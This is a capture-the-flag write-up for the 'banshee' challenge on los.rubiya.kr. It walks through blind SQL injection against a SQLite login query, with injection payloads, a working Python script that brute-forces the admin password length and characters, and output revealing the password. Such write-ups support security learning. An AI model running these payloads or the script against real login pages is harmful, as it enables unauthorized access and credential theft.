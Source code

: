```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 32
tags: [SQLi, Blind SQL injection]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a61aad74-8281-41ed-a2ae-9a7202c94f06)

We are provided with the SQLite query.

```sql
SELECT id FROM member WHERE id='admin' AND pw='{$_GET[pw]}'
```

In order to solve this challenge, we have to perform blind SQL injection.

&nbsp;

## Blind SQL injection

### Extracting the password length

If we provide the following URI parameter:

```
?pw=' OR id='admin' AND length(pw)=[length] -- -
```

The resultant query becomes:

```sql
SELECT id FROM member WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=[length] -- -'
```

When the length of `pw` for `id='admin'` is equal to the `[length]` that we provide, the query will result into `True`. This will cause the `login success!` message to be printed. We can brute force the length and use the message as an indicator of correct brute force value.

### Leaking the password

If we provide the following URI parameter:

```
?pw=' OR id='admin' AND substr(pw, [index], 1)='[char]' -- -
```

The resultant query becomes:

```sql
SELECT id FROM member WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, [index], 1)='[char]' -- -'
```

If for `id='admin'`, the character of the `pw` at `[index]` is the same as the `[character]` that we provide, the query will result into `True`. This will cause the `login success!` message to be printed. We can brute force the password by changing the `[index]` and the `[character]`.

### Script

```python title="banshee_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'p4hrm6i519s3gb9g95dqsmqk8v'}
url = "https://los.rubiya.kr/chall/banshee_ece938c70ea2419a093bb0be9f01a7b1.php"
password_length = 0

for x in range(0, 10):
  payload = f"' OR id='admin' AND length(pw)={x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "login success!" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR id='admin' AND substr(pw, {index}, 1)='{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "login success!" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\banshee_script.py     

[!] Payload: ?pw=' OR id='admin' AND length(pw)=8 -- -
[!] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+length%28pw%29%3D8+--+-
[!] Password length: 8

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%270%27+--+-
[+] Character at index 1: 0

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 2, 1)='3' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%273%27+--+-
[+] Character at index 2: 3

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 3, 1)='1' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%271%27+--+-
[+] Character at index 3: 1

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 4, 1)='3' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%273%27+--+-
[+] Character at index 4: 3

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 5, 1)='0' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%270%27+--+-
[+] Character at index 5: 0

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 6, 1)='9' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%279%27+--+-
[+] Character at index 6: 9

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 7, 1)='1' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%271%27+--+-
[+] Character at index 7: 1

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 8, 1)='b' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%27b%27+--+-
[+] Character at index 8: b

[!] Extracted password: 0313091b
[!] Final payload: ?pw=0313091b
```

&nbsp;

If we provide the following URI parameter:

```
?pw=0313091b
```

The resultant query becomes:

```sql
SELECT id FROM member WHERE id='admin' AND pw='0313091b'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/8f2545dd-41be-4133-869a-cb3d3820f33d)
